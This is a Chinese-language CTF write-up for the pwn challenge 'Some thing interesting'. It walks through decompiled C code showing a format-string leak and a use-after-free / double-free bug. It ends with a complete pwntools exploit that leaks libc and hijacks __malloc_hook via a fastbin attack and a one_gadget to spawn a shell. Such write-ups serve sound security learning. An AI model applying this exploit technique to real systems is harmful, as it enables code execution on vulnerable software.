

# 新春战“疫” some thing interesting

### 0x0 前置补偿

在开PIE的情况下，在指定位置下断点：

`b *$rebase(offset)`

[关于`realloc_hook`的的利用](https://bbs.pediy.com/thread-246786.htm)

### 0x1 分析

看一下安全性：

```shell
[*] '/Some_thing_interesting/interested'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

都开着呢。看一眼函数逻辑，并不复杂：

`main()`:

```c
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  int *v3; // rsi
  int v4; // [rsp+Ch] [rbp-14h]
  void *s; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = 0;
  v3 = 0LL;
  memset(s, 0, 0x14uLL);
  setBuf();
  s = getCode();
  menu();
  while ( 1 )
  {
    printf("> Now please tell me what you want to do :", v3);
    v3 = &v4;
    _isoc99_scanf("%d", &v4);
    switch ( (unsigned int)off_1A0C )
    {
      case 0u:
        checkCode((const char *)s);
        break;
      case 1u:
        create();
        break;
      case 2u:
        edit();
        break;
      case 3u:
        delete();
        break;
      case 4u:
        view();
        break;
      case 5u:
        goodBye();
        return;
      default:
        puts("Emmmmmm!Maybe you want Fool me!");
        goodBye();
        return;
    }
  }
}
```

首先要输入一个`code`，其中后几个字节是可以自己控制的：

```c
char *getCode()
{
  memset(s1, 0, 0x14uLL);
  puts("#######################");
  puts("#       Surprise      #");
  puts("#---------------------#");
  printf("> Input your code please:", 0LL);
  read(0, s1, 19uLL);
  if ( strncmp(s1, "OreOOrereOOreO", 14uLL) )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    exit(0);
  }
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return s1;
}
```

然后看一下`case 0`：`checkcode`

```c
unsigned __int64 __fastcall checkCode(const char *a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( dword_202010 )
  {
    puts("Now you are ....?");
    printf("# Your Code is ");
    printf(a1);	//这里有一个格式化字符串漏洞
    putchar(10);
    puts("###############################################################################");
  }
  else
  {
    puts("Now you are Administrator!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

有一个字符串漏洞可以泄漏地址。

然后是`create`函数：`idx`从`1`开始。申请两个fastbin的块

```c
unsigned __int64 create()
{
  signed int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#     Create Oreo     #");
  puts("#---------------------#");
  for ( i = 1; i <= 9 && OList[i] && OLenList[i] && ReList[i] && RELenList[i]; ++i )
  {
    if ( i == 9 )
    {
      puts("#    so much Oreo!    #");
      puts("#######################");
      return __readfsqword(0x28u) ^ v2;
    }
  }
  printf("> O's length : ");
  _isoc99_scanf("%ld", &OLenList[i]);
  if ( OLenList[i] <= 0LL || OLenList[i] > 0x70LL )// 0x70 -> fastbin
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodBye();
  }
  OList[i] = malloc(OLenList[i]);
  printf("> O : ");
  read(0, OList[i], OLenList[i]);               // No EOF
  printf("> RE's length : ");
  _isoc99_scanf("%ld", &RELenList[i]);
  if ( RELenList[i] <= 0LL || RELenList[i] > 0x70LL )// 0x70 -> fastbin
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodBye();
  }
  printf("> RE : ");
  ReList[i] = malloc(RELenList[i]);
  read(0, ReList[i], RELenList[i]);
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
}
```

`delete()`:

```c
unsigned __int64 delete()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#     Delete Oreo     #");
  puts("#---------------------#");
  printf("> Oreo ID : ");
  _isoc99_scanf("%d", &idx);
  if ( idx < 0 || idx > 10 || !OList[idx] )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodBye();
  }
  free(OList[idx]);
  free(ReList[idx]);                            // UAF
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
}
```

这里并没有置零，所以可以double free 和 UAF。

`edit()`:

```c
unsigned __int64 edit()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("#######################");
  puts("#     Modify Oreo     #");
  puts("#---------------------#");
  printf("> Oreo ID : ");
  _isoc99_scanf("%d", &idx);
  if ( idx < 0 || idx > 10 || !OList[idx] || !OLenList[idx] || !ReList[idx] || !RELenList[idx] )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    goodBye();
  }
  printf("> O : ", &idx);
  read(0, OList[idx], OLenList[idx]);           // len no change
  printf("> RE : ");
  read(0, ReList[idx], RELenList[idx]);
  puts("#---------------------#");
  puts("#      ALL Down!      #");
  puts("#######################");
  return __readfsqword(0x28u) ^ v2;
}
```

所以我们可以用fastbin attack来劫持`__malloc_hook`，但是首先要泄漏`libc`的地址。因为这里有fmt漏洞，常泄漏`__libc_start_main`的地址来得到`libc`的地址。



因为64bit系统，所以偏移17。

泄漏了`libc`之后，就是非常简单的劫持了。这里直接用one_gadget的地址，没成功，所以考虑`__realloc_hook`来放置one_gadget，然后在`__malloc_hook`处覆盖为`__libc_realloc`。完工。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./interested')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def debug(p, cmd):
  gdb.attach(p, cmd)
  pause()

def checkcode(p):
  p.sendlineafter('> Now please tell me what you want to do :', '0')

def create(p, Osize, Ocontent, REsize, REcontent):
  p.sendlineafter('> Now please tell me what you want to do :', '1')
  p.sendlineafter("> O's length : ", str(Osize))
  p.sendlineafter("> O : ", Ocontent)
  p.sendlineafter("> RE's length : ", str(REsize))
  p.sendlineafter("> RE : ", REcontent)

def edit(p, idx, Ocontent, REcontent):
  p.sendlineafter('> Now please tell me what you want to do :', '2')
  p.sendlineafter("> Oreo ID : ", str(idx))
  p.sendlineafter("> O : ", Ocontent)
  p.sendlineafter("> RE : ", REcontent)

def delete(p, idx):
  p.sendlineafter('> Now please tell me what you want to do :', '3')
  p.sendlineafter("> Oreo ID : ", str(idx))

def view(p, idx):
  p.sendlineafter('> Now please tell me what you want to do :', '4')

#leak libc
p.sendlineafter('> Input your code please:', "OreOOrereOOreO%17$p")
# debug(p, 'b *$rebase(0xD88)')
checkcode(p)
p.recvuntil("# Your Code is OreOOrereOOreO")
libc_base = eval(p.recv(14)) - 240 - libc.symbols["__libc_start_main"]
# debug(p, 'print system\n')

#fastbin attack
malloc_hook = libc_base + libc.symbols["__malloc_hook"]
exploit_point = malloc_hook - 0x23
# exploit_point = malloc_hook - 0x10
realloc = libc_base + libc.symbols["__libc_realloc"]
one_gadget = 0x4526a + libc_base

create(p, 0x60, 'aaaa', 0x60, 'aaaa') #idx:1
create(p, 0x60, 'aaaa', 0x60, 'aaaa') #idx:2
create(p, 0x60, 'aaaa', 0x60, 'aaaa') #idx:3

delete(p, 1)
delete(p, 2)
delete(p, 1)

create(p, 0x60, p64(exploit_point), 0x60, p64(exploit_point)) #idx:4
create(p, 0x60, 'aaaa', 0x60, 'aaaa') #idx:5
payload = 'A'*(0x23 - 0x10 - 0x8) + p64(one_gadget) + p64(realloc+9)
# payload = p64(one_gadget)
create(p, 0x60, payload, 0x60, payload)

p.interactive()
```


